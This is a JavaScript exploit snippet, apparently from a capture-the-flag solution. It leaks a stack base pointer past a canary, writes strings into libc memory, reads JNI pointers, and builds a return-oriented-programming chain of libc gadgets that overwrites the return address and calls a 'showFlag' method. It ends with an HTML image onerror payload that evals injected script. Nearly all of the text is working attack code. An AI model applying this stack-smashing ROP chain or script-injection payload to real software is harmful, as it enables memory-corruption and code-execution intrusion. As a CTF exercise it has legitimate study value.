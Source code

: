 ```javascript
    // leak RBP
    // RBP is at the end of the 40 bytes buffer, after the canary
    modify("41414141414141414141414141414141414141414141414141414141414141414141414141424242"+canary);
    // skip 48 first bytes (4141...)
    leak = top().substring(96);
    RBP = unpack64(leak);
    console.log("RBP : "+RBP.toString(16));

    // write "showFlag" in libc
    write(libc_base + 0xD9530, '73686F77466C616700');
    // write "()V" in libc
    write(libc_base + 0xD9510, '28295600');

    // get jniEnv and this
    JNI_env = unpack64(read(RBP-0x60)); // vu dans IDA
    this_ptr = unpack64(read(RBP-0x68)); // vu dans IDA
    console.log("JNI_env : "+JNI_env.toString(16));
    console.log("this_ptr : "+this_ptr.toString(16));


    // gadgets found using ROPGadget
    // 0x0000000000042e58 : pop rcx ; ret
    pop_rcx = libc_base + 0x42e58
    // 0x0000000000046175 : pop rdx ; ret
    pop_rdx = libc_base + 0x46175
    // 0x0000000000042c92 : pop rdi ; ret
    pop_rdi = libc_base + 0x42c92
    // 0x0000000000042d38 : pop rsi ; ret
    pop_rsi = libc_base + 0x42d38
    // 0x0000000000042af0 : ret
    ret = libc_base + 0x42af0

    // jniEnv -> RDI
    // this -> RSI
    // @"showFlag" -> RDX
    // @"()V" -> RCX
    rop = pack64(pop_rcx)
    rop += pack64(libc_base + 0xD9510) // ()V
    rop += pack64(pop_rdx)
    rop += pack64(libc_base + 0xD9530) // showFlag
    rop += pack64(pop_rsi)
    rop += pack64(this_ptr)
    rop += pack64(pop_rdi)
    rop += pack64(JNI_env)
    rop += pack64(ret) // for stack alignment
    rop += pack64(invoke_addr)


    // overwrite RIP, after canary + EBP
    modify("41414141414141414141414141414141414141414141414141414141414141414141414141414141"+canary+"4242424242424242"+rop);

</span>
<img src="a" onerror="eval(document.getElementById('exp').innerHTML);" />
```
